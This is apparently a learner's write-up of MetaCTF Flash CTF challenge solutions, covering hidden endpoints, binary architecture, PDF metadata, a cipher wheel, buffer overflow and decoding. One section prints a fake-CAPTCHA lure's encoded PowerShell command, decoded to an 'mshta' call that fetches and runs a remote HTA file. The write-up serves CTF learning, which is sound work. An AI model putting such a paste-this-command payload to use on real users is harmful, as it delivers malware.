

# Solutions

[**Direct Login](https://compete.metactf.com/289/problems#problem2) - Question** 

First Question:

Take a look at [ConnectWind's internal employee portal](https://metaproblems.com/71c5b42eb77639d5224be5589123de30/). In addition to company policies & HR information, I heard it also stores flags.

Can you access the protected employee portal without knowing the password and steal the flag?

This challenge is from the February 2024 Flash CTF. It was first solved 30 seconds into the competition by `NickC`. 62.4% of active users solved it during the competition.

Solution:

Tried the following for problem 1: - Failed

Identify potential hidden or unlisted endpoints under the URL:

`https://metaproblems.com/71c5b42eb77639d5224be5589123de30/`


1. Search Engine Indexing (Passive):
    - Used Google dorking:
        
        `site:metaproblems.com inurl:71c5b42eb77639d5224be5589123de30`
        
    - Result: No additional paths discovered.
2. Directory Fuzzing (Active):
    - Tools: `ffuf`, `gobuster`, `dirb`, `dirbuster`
    - Technique: Brute-force common paths using known wordlists (`SecLists`)
    - Example paths tested: `employee_portal.php`, `admin/`, `login/`

Reason why it failed:

- No passive method reveals hidden endpoints unless already exposed or indexed.
- Brute-force (directory fuzzing) is the only reliable method to discover unlisted paths.

---

Second Try - Success

Go to inspect Elemets and see the script if the password is sucessful it redirects 



window.location.href = "./employee_portal.php";

Meaning adding /employee_portal.php to the URL takes you there. 

---

---

Camping Adventure


Solution Perform Google Image Search.

---

---

Architecture Astronaut


 [this executable](https://metaproblems.com/d36b89698928224c03f29aa2d2cb5544/astronaut) 

Solution - Used GPT - GPT Generated a CODE and Found the Flag

```jsx
import subprocess

# Use the `file` command to determine the architecture of the uploaded file

file_path = "/mnt/data/astronaut"
file_output = subprocess.run(["file", file_path], capture_output=True, text=True)

file_output.stdout.strip()
```

```jsx
Result
'/mnt/data/astronaut: ELF 32-bit LSB executable, Tensilica Xtensa, version 1 (SYSV), statically linked, with debug_info, not stripped'
```

The executable was compiled for the Tensilica Xtensa architecture.

Flag: xtensa

---

---

[**Anonymoose**](https://compete.metactf.com/289/problems#problem29)


[Here's the letter in question.](https://metaproblems.com/0778e85952c806a4f55fb61d12fd8ca0/D34DM0053_Open_Letter_Mental_Health.pdf)

Downloaded the PDF - Viewed its MetaData using the following website

```jsx
[https://www.metadata2go.com/view-metadata](https://www.metadata2go.com/view-metadata)
```

---

---

Wheel of Mystery


Tried allighning the cyper wheel with 3 words  }AB  didnt work

R - {

K - Y

P - W

U - O

Y - U

P - W

F - N

C - E

I - D

A - A

K - Y

K - Y

J - C

M - Z

Y - U

Z - T

Z - T

J - C

T - X

{YWOUWNE DAY YCZUTTCX

Failed 

Recreating the cypher wheel using METACTF{ becasue this is the format they want the awnser in.

A B C D E F G  H I    J K L  M N O P Q R S T U V W X Y Z {   }

H G { Q N F U  V W L E  Z  Y X P T  K M R } A B  J   I C O S  D 

`RKPUYPFCIAKKJMYZZJT` 

Awnser =

METACTF{WHEELYCOOL}

---

---

[**Cracking The Javashop**](https://compete.metactf.com/289/problems#problem39)


[here](http://host5.metaproblems.com:7510/)

Went to the Script and found the Code 


---

---

Stack Smashers


 [here](http://e62fc65240.chals.mctf.io/).

Need to study about Binary Exploitation and Buffer over flow 

Solution Just added more than 16 char the buffer overflow and got the flag.

Learn more about buffer overflows from the classic paper [Smashing the Stack for Fun and Profit](http://phrack.org/issues/49/14.html) by Aleph One.

---

---

START FROM HERE - [https://compete.metactf.com/289/problems](https://compete.metactf.com/289/problems) 


[Here's](https://metaproblems.com/3bd33118c7a7faa98c23c76ea8aa782e/) the link to the initial infection page

Solution 
Inspect - elements - script - 

```jsx
const textToCopy = "powershell.exe -eC bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A";
```

Decoded the sending link to (USING GPT)

The string you provided appears to be **Base64 encoded**. Let's decode it step-by-step.

### Input:

```
bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A
```

### Decoded (UTF-16LE format — because of the alternating nulls):

```
mshta http://nonmaliciouscaptcha.metaproblems.com/MetaCTF{F4k3_c4pTch@s_ruN_m4lw4r3}
```

- `mshta**` stands for **Microsoft HTML Application Host**.

### In simple terms:

It is a Windows **built-in executable** (`mshta.exe`) used to run **HTML Applications (HTA files)**, which are HTML pages with the ability to execute **scripts (like VBScript or JavaScript)** with full system access — **similar to .exe files**.

---

### In cybersecurity or CTF context:

- `mshta` is often **used by malware** or **in Capture The Flag (CTF) challenges** to execute remote or local malicious scripts.

---

---

Slithering Security


[here.](https://metaproblems.com/e7d6901a6cde126e0c211b60d216aedd/chal.py)

Solution

```jsx
b"\x54\x57\x56\x30\x59\x55\x4e\x55\x52\x6e\x74\x6b\x4d\x47\x34\x33\x58\x7a\x64\x79\x64\x58\x4d\x33\x58\x32\x4e\x73\x4d\x57\x34\x33\x63\x31\x39\x33\x61\x54\x64\x6f\x58\x33\x4d\x7a\x59\x33\x49\x7a\x4e\x33\x4e\x7a\x63\x33\x4e\x7a\x63\x33\x4e\x39"
```

Was given this string in HEX 


[ From Hex (auto delimiters) ]
[ From Base64 ]

Flag Captured!

---

---

Abashed Confessions


We also have a transcript of the letter [here](https://metaproblems.com/e50c3885d7512ce80354b2583d204365/letter_transcript.txt).

Will Continue Soon :) .
